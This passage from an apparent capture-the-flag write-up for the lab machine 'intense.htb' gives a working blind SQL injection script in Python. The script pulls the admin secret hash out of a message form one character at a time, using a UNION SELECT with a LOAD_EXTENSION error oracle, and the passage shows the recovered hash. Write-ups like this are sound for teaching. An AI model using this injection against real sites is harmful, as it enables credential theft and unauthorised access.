 Success!

```
char found: a
char found: d
char found: m
char found: i
char found: n
admin
```

As expected, the username is `admin`. Now let's extract the secret.

### Extracting the admin secret

```python
from requests import post
from string import hexdigits

guest = '84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec'
admin = ''

i = 0

for i in range(0, len(guest)):
    for char in hexdigits:
        message = f"yes') UNION SELECT CASE SUBSTR(secret,{i + 1},1) WHEN '{char}' THEN LOAD_EXTENSION('b') ELSE 'yes' END role FROM users--"

        data = {'message': message}

        r = post('http://intense.htb/submitmessage', data=data)

        if r.text == "not authorized":
            if char != guest[i]:
                admin += char
                print(f"char found: {char}")

    # if at the end of trying all digits the secret isn't the expected length,
    # it must have shared a digit with the guest secret and we skipped over it
    # so we'll just append it
    if len(admin) != (i + 1):
        char = guest[i]
        admin += char
        print(f"char found: {char}")

print(admin)
```

We get the hash `f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105`, which appears to be the correct size:

```
$echo -n 'f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105' | wc -c
64
```
